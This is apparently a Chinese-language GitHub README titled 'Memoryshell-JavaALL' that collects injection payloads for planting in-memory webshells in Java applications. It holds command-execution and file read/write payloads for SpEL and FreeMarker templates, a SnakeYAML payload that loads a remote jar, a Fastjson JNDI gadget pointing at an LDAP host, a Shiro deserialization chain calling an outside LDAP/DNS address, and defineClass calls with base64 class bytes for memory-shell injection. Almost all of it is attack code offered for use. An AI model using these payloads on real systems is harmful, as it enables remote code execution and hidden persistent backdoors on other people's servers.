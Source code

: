 # Memoryshell-JavaALL
收集内存马打入方式

## SPEL 

不加模板解析的payload
```
T(java.lang.Runtime).getRuntime().exec("calc")
new+java.lang.ProcessBuilder("cmd","/c","Calc").start()
```
加模板解析的payload
```
#{new java.lang.ProcessBuilder({'calc'}).start()}
```
可以回显时使用
```
new java.io.BufferedReader(new java.io.InputStreamReader(new ProcessBuilder("cmd", "/c", "whoami").start().getInputStream(), "gbk")).readLine()
```
可以打入内存马高版本Spring Core 受限
```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAA....'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}
```
使用JNDI 注入利用 在Springboot 中不适用，因为它会程序启动时初始化InitialContext
```
#{T(java.lang.System).setProperty('com.sun.jndi.ldap.object.trustURLCodebase', 'true')} 
#{new javax.management.remote.rmi.RMIConnector(new javax.management.remote.JMXServiceURL("service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc"), new java.util.Hashtable()).connect()}
```
## FreeMarker 

执行命令
```
${"freemarker.template.utility.Execute"?new()("id")}
${"freemarker.template.utility.Execute"?new()("Calc")}
<#assign value="freemarker.template.utility.Execute"?new()>${value("Calc")}
```
写文件
```
${"freemarker.template.utility.ObjectConstructor"?new()("java.io.FileWriter","/tmp/hh.txt").append("<>").close()}
```
读文件
```
<#assign+value="freemarker.template.utility.ObjectConstructor"?new()("java.io.FileReader","C:\\Temp\\test.txt")>${"freemarker.template.utility.ObjectConstructor"?new()("java.util.Scanner",value).useDelimiter("\\Aasd").next()}
```
使用SPEL利用
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(java.lang.Runtime).getRuntime().exec(\"calc\")").getValue()}
```
使用SPEL 进行JNDI
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("new+javax.management.remote.rmi.RMIConnector(new+javax.management.remote.JMXServiceURL(\"service:jmx:rmi://127.0.0.1:1389/jndi/ldap://127.0.0.1:1389/Basic/Command/Calc\"),new+java.util.Hashtable()).connect()").getValue()}
```
使用SPEL 加载内存马
```
${"freemarker.template.utility.ObjectConstructor"?new()("org.springframework.expression.spel.standard.SpelExpressionParser").parseExpression("T(org.springframework.cglib.core.ReflectUtils).defineClass('SpringInterceptor',T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADQA5。。。\"),new+javax.management.loading.MLet(new+java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()").getValue()}
```
使用Jython 
```
<#assign value="freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("calc.exe")</@value>
```
## YAML

ftp 可以换为HTTP 及其他支持协议
```
*!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["ftp://127.0.0.1:8000/yaml-payload4.jar"]]]]
```

不出网时： 

感觉搭配C3P0 得方式还是没有这种带来的安全感足

ScriptEngineManager(目前比较通用的一种方式，思路也比较好。同时拓展一下如果可以通过反序列化落地，那如果拥有上传接口也可以通过上传落地再进行加载。)

第一步：通过反序列化实现文件落地

第二步：加载本地文件内容

```
复现链接：https://xz.aliyun.com/t/10655
```

## Fastjson

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://xx.xx.xx.xx:9102/123",
        "autoCommit":true
    }
}
```

## Shiro Cookie 过长？ 不防看看这种方法
熟悉得师傅一下就可以看出内存马怎们打了吧
```
    final BeanComparator comparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
    queue.add("1");
    queue.add("1");
    Reflections.setFieldValue(comparator, "property", "parameterMetaData");
    JdbcRowSetImpl test =  new com.sun.rowset.JdbcRowSetImpl();
    test.setDataSourceName("ldap://823s64b3.dns.1433.eu.org.");
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = test;
    return queue;
```
------------------------------------------------------------------------------------
各位师傅有建议及其他Payload 带带弟弟啊
未完待续.....
 